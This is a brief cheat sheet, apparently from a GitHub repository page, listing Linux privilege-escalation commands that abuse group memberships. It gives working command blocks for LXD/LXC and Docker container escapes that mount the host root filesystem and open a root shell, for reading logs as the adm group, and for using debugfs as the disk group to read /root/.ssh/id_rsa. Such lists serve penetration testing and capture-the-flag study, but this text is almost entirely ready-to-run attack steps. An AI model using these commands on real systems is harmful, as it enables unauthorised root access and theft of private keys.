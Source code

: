 Escalate to root with LXD/LXC group permission
```bash
lxd init
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh
```
Docker group
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
ADM group can read all logs in `/var/log`
```bash
find /var/log -group adm
```
Disk group have full access to devices in `/dev`
```bash
df -h
debugfs /dev/DISK_OF_OS_FILE_SYSTEM
debugfs: mkdir test
debugfs: cat /root/.ssh/id_rsa
```
